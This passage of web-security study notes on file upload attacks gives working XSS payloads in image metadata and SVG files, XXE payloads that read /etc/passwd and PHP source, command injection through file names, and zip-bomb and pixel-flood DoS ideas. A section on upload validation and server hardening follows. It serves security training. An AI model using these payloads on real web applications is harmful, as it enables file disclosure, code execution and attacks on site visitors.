The most basic example is when a web application allows you to upload HTML files. Although HTML files won't allow you to execute code, it would still be possible to implement JavaScript code within them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page. If the target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines.

Another example of XSS attacks is web applications that display an image's metadata after its upload. For such web apps, you can include an XSS payload in one of the Metadata parameters that accept raw text, like the ```Comment``` or ```Artist```.

```bash
d41y@htb[/htb]$ exiftool -Comment=' ">' HTB.jpg
d41y@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  ">
```

You can see that the Comment parameter was updated to your XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if you change the image's MIME-Type to ```text/html```, some web apps may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.

XSS attacks can also be carried with ```SVG``` images, along with several other attacks. Scalable Vector Graphics images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, you can modify their XML data to include an XSS payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

With SVG images, you can also include malicious XML data to leak the source code of the web app, and other internal documents within the server.

Example to leak ```/etc/passwd```:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and you should get the info of ```/etc/passwd``` printed on the page or shown in the page source. Similarly, if the web app allows the upload of XML documents, then the same payload can carry the same attack when the XML data is displayed on the web app.

While reading systems files like ```/etc/passwd``` can be very useful for server enumeration, it can have an even more significant benefit for the web penetration testing, as it allows you to read the web application's source files. Access to the source code will enable you to find more vulnerabilities to exploit within the web application through Whitebox Penetration Testing. For File Upload exploitation, it may allow you to locate the upload directory, identify allowed extensions, or find the file naming scheme, which may become handy for further exploitation.

Example for reading source code in PHP web applications:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Once the SVG image is displayed, you should get the base64 encoded content of ```index.php```, which can decode to read the source code.

Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, amond many others. All of these documents include XML data within them to specify their format and structure. Suppose a web app used a document viewer that is vulnerable to XXE and allowed uploading any of these documents. In that case, you may also modify their XML data to include the malicious XXE elements, and you would be able to carry a blind XXE attack on the back-end web server.

### DoS

Many file upload vulnerabilities may lead to a Denial of Service attack on the web server. For example, you can use the previous XXE payloads to achieve DoS attacks.

Furthermore, you can utilize a Decompression Bomb with file types that uses data compression, like ZIP archives. If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.

Another possible DoS attack is a Pixel Flood attack with some image files that utilize image compression, like JPG or PNG. You can create any JPG image file with any image size, and then manually modify its compression data to say it has a size of ``` 0xffff x 0xffff```, which results in an image with a perceived size of 5 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.

## Other Upload Attacks

### Injections in File Names

A common file upload attack uses a malicious string for the uploaded file name, which may get executed or processed if the uploaded file name is displayed on the page. You can try injecting a command in the file name, and if the web application uses the file name within an OS command, it may lead to a command injection attack.

For example, if you name a file ```file$(whoami).jpg``` or ```file`whoami`.jpg``` or ```file.jpg||whoami```, and then the web application attempts to move the uploaded file with an OS command, then your file name would inject the ```whoami``` command, which would get executed, leading to remote code execution.

Similarly, you may use an XSS payload in the file name (```<script>alert(window.origin);</script>```), which would get executed on the target`s machine if the file name is displayed to them. You may also inject an SQL query in the file name, which may lead to an SQLi if the file name is insecurely used in an SQL query.

### Upload Directory Disclosure

In some file upload forms, like a feedback form or a submission form, you may not have access to the link of your uploaded file and may not know the uploads directory. In such cases, you may utilize fuzzing to look for the uploads directory or even use other vulnerabilities to find where the uploaded files are by reading the web application's source code.

Another method you can use to disclose the uploads directory is through forcing error messages, as they often reveal helpful information for further exploitation. One attack you can use to cause such errors is uploading a file with a name that already exists or sending two identical requests silmutaneously. This may lead the web server to show an error that it could not write the file, which may disclose the uploads directory. You may also try uploading a file with an overly long name. If the web application does not handle this correcty, it may also error out and disclose the upload directory.

### Windows-specific Attacks

One such attack is using reserved characters, such as ```| < > * ?```, which are usually reserved for special uses like wildcards. If the web application does not properly sanitize these names or wrap them within quotes, they may refer to another file and cause an error that discloses the upload directory. Similarly, you may use Windows reserved names for the uploaded file name, like ```CON COM1 LPT1```, or ```NUL```, which may also cause an error as the web application will not be allowed to write a file with this name.

Finally, you may utilize the [Windows 8.3 Filename Convention](https://en.wikipedia.org/wiki/8.3_filename) to overwrite existing files or refer to files that do not exist. Older versions of Windows were limited to a short length for file names, so they used a ```~```  to complete the file name, which you can use to your advantage.

For example, to refer to a file called ```hackthebox.txt``` you can use ```HAC~1.TXT``` or ```HAC~2.TXT```, where the digit represents the order of the matching files that start with ```HAC```. As windows still supports this convention, you can write a file called ```WEB~.CONF``` to overwrite the ```web.conf``` file. Similarly, you may write a file that replaces sensitive system files. This attack can lead to several outcomes, like causing information disclosure through errors, causing a DoS on the back-end server, or even accessing private files.

## Preventing File Upload Vulnerabilities

### Extension Validation

While whitelisting extensions is always more secure than blacklisting, it is recommended to use both by whitelisting the allowed extensions and blacklisting dangerous extensions. This way, the blacklist list will prevent uploading malicious scripts if the whitelist is ever bypassed.

PHP example:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

// blacklist test
if (preg_match('/^.+\.ph(p|ps|ar|tml)/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// whitelist test
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

### Content Validation

You should also validate the file content, since extension validation is not enough. You cannot validate one without the other and must always validate both the file extension and its content. Furthermore, you should always make sure that the file extension matches the file's content.

PHP example:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// whitelist test
if (!preg_match('/^.*\.png$/', $fileName)) {
    echo "Only PNG images are allowed";
    die();
}

// content test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!in_array($type, array('image/png'))) {
        echo "Only PNG images are allowed";
        die();
    }
}
```

### Upload Disclosure

Another thing you should avoid doing is disclosing the uploads directory or providing direct access to uploaded files. It is always recommended to hide the uploads directory from the end-users and only allow them to download the uploaded files through a download page.

You may write a ```download.php``` script to fetch the requested file from the uploads directory and then download the file for the end-user. This way, the web application hides the uploads directory and prevents the user from directly accessing the uploaded files. This can significantly reduce the chances of accessing a malicously uploaded script to execute code.

If you utilize a download page, you should make sure that the ```download.php``` script only grants access to files owned by the users and that the users do not have direct access to the uploads directory. This can be achieved by utilizing the ```Content-Disposition``` and ```nosniff``` headers and using an accurate ```Content-Type``` header.

In addition to restricting the uploads directory, you should also randomize the names of the uploaded files in storage and store their sanitized original names in a database. When the ```download.php``` script needs to download a file, it fetches its original name from the database and provides it at download time for the user. This way, users will neither know the uploads directory nor the uploaded file name. You can also avoid vulnerabilities caused by injections in the file names.

Another thing you can do is store the uploaded files in a separate server or container. If an attacker can gain remote code execution, they would only compromise the uploads server, not the entire back-end server. Furthermore, web servers can be configured to prevent web applications from accessing files outside their restricted directories by using configurations like ```open_basedir``` in PHP.

### Further Security

A critical configuration you can add is disabling specific functions that may be used to execute system commands through the web application. For example, to do so in PHP, you can use the ```disable_functions``` configuration in ```php.ini``` and add such dangerous functions, like ```exec```, ```shell_exec``` ```system```, ```passthru```, and few others.

Few other tips you should consider for web applications:
- limit file size
- update any used libraries
- scan uploaded files for malware or malicious strings
- utilize a WAF as a secondary layer of protection